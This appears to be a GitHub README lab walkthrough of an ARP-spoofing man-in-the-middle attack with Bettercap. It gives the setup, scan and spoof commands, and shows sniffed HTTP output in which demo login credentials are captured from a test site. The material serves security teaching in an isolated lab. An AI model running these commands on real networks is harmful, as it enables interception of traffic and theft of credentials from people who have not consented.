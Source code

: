 # ARP-MITM-Bettercap
> ⚠️ **Disclaimer**: This project is for educational purposes only. Do **not** perform these actions on networks you do not own or have explicit permission to test. Unauthorized access is illegal.

## LAB SET-UP
### 💻 Attacker Machine

**OS**: Kali Linux 2024.1  

**Tool Used**: Bettercap  

**IP Address**: 192.168.1.5  

**Role**: Perform ARP spoofing, sniff HTTP traffic

### 🖥️ Victim Machine

**OS**: Ubuntu or Windows 10   

**Browser**: Firefox / Chrome  

**IP Address**: 192.168.1.10  

**Role**: Target of the attack, visiting HTTP websites

### 🌐 Network Setup

**Type**: Bridged Adapter (VirtualBox)  

**Interface**: `eth0` (for attacker)  

**Same Local Network**: Yes ✅   

  Check your network  interface:  
  ```bash
  ip a
  ```
  Check your Default gateway:(victim)
  ```bash
  ip route
  ```
Install **Bettercap** if not already installed:

```bash
 sudo apt update
 sudo apt install bettercap
 ```

1. **Start Bettercap:**
    ```bash
    sudo bettercap -iface eth0
    ```

2. **Scan Network:**
    ```bash
    net.probe on
    ```
    ``` output
    192.168.1.0/24 > 192.168.1.5  » net.probe on
    [10:09:18] [sys.log] [inf] net.probe starting net.recon as a requirement for net.probe
    192.168.1.0/24 > 192.168.1.5  » [10:09:18] [sys.log] [inf] net.probe probing 256 addresses on 192.168.1.0/24
    192.168.1.0/24 > 192.168.1.5  » [10:09:18] [endpoint.new] endpoint fe80::xxxx:xxxx:xxxx:xxxx detected as **AA:BB:CC:DD:EE:01** (Generic Device Vendor)
    192.168.1.0/24 > 192.168.1.5  » [10:09:18] [endpoint.new] endpoint 192.168.1.10 detected as **AA:BB:CC:DD:EE:02** (Generic Device Vendor)
```

net.show
```
```output
192.168.1.0/24 > 192.168.1.5  » net.show

┌────────────────────────────┬────────────────────┬─────────────────┬──────────────────────────────────────────────┬───────┬───────┬──────────┐
│           IP ▴             │        MAC         │      Name       │                    Vendor                    │ Sent  │ Recvd │   Seen   │
├────────────────────────────┼────────────────────┼─────────────────┼──────────────────────────────────────────────┼───────┼───────┼──────────┤
│ 192.168.1.5                │ AA:BB:CC:11:22:33   │ eth0            │ PCS Systemtechnik GmbH                       │ 0 B   │ 0 B   │ 10:09:11 │
│ 192.168.1.13               │ DD:EE:FF:44:55:66   │ gateway         │                                              │ 695 B │ 477 B │ 10:09:11 │
│                            │                    │                 │                                              │       │       │          │
│ fe80::xxxx:xxxx:xxxx:xxxx  │ FF:AA:CC:77:88:99   │ LAPTOP-USER     │ CLOUD NETWORK TECHNOLOGY SINGAPORE PTE. LTD. │ 0 B   │ 0 B   │ 10:09:20 │
│ 192.168.1.10               │ 11:22:33:44:55:66   │                 │ PCS Systemtechnik GmbH                       │ 120 B │ 92 B  │ 10:09:20 │
└────────────────────────────┴────────────────────┴─────────────────┴──────────────────────────────────────────────┴───────┴───────┴──────────┘
```

3. **Set Victim IP:**
    ```bash
    set arp.spoof.targets 192.168.1.10
    ```

4. **Launch Attack:**
    ```bash
    arp.spoof on
    http.proxy on
    net.sniff on
    ```

5. **Ask the victim to visit a non-HTTPS site** (for demonstration):
    ```
    http://testphp.vulnweb.com/login.php
    ```

6. **Captured Output:**
    ```OUTPUT
    192.168.1.0/24 > 192.168.1.5  » [10:10:36] [net.sniff.http.request] http 192.168.1.10 POST testphp.vulnweb.com/userinfo.php                                                                                              POST /userinfo.php HTTP/1.1
          Host: testphp.vulnweb.com
          Origin: http://testphp.vulnweb.com
          Connection: keep-alive
          Upgrade-Insecure-Requests: 1
          Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
          Accept-Encoding: gzip, deflate
          Content-Type: application/x-www-form-urlencoded
          Content-Length: 23
          Priority: u=0, i
          User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:141.0) Gecko/20100101 Firefox/141.0
          Accept-Language: en-US,en;q=0.5
          Referer: http://testphp.vulnweb.com/login.php

          uname=demoUser&pass=demoPass

    ```


